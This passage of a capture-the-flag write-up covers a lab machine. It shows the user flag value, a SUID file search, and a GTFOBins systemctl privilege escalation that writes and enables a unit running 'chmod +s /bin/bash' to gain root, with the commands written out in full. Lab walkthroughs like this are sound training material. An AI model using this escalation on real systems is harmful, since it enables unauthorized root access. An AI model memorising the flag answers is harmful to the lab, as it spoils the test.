 **Answer**: `bill`
## What is the user flag?
1. Go to `bill`'s home directory with `cd /home/bill`.
2. List directory content and extract `user.txt`:
```bash
www-data@vulnuniversity:/$ cd /home/bill
www-data@vulnuniversity:/home/bill$ ls  
user.txt
www-data@vulnuniversity:/home/bill$ cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

**Answer**: `8bd7992fbe8a6ad22a63361004cfcedb`
## On the system, search for all SUID files. What file stands out?
1. From searching for all SUID files, `/bin/systemctl` stands out since its a crucial program in Linux systems.
```bash
www-data@vulnuniversity:/home/bill$ find / -perm -4000 2>/dev/null 
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

**Answer**: `/bin/systemctl`
## Become root and get the last flag (/root/root.txt)
1. According to [GTFOBins' `systemctl`](https://gtfobins.github.io/gtfobins/systemctl/) page, `systemctl` can be used to gain root privileges:
```bash
www-data@vulnuniversity:/$ TF=$(mktemp).service
www-data@vulnuniversity:/$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.oAjhWlKeGY.service to /tmp/tmp.oAjhWlKeGY.service.
www-data@vulnuniversity:/$ /bin/systemctl enable --now $TF
```